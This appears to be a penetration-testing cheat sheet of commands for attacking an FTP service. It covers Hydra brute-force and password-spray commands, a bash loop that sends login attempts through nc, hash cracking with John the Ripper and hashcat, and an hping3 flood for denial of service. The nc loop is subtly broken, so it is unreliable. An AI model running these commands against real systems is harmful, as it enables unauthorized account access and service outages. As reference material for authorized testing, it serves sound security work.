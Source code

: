 ### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra ftp://<target_ip> -s 21 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra ftp://<target_ip> -s 21 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

\


*   **Tool:** \[\[Custom Scripts]]

    ```bash
    for pass in $(cat passwords.txt); do echo "USER $user" | nc <target_ip> 21; echo "PASS $pass" | nc <target_ip> 21; done
    ```
* **Description:** Automates the use of known credentials (from breaches) to attempt access to the target server.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:**

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.
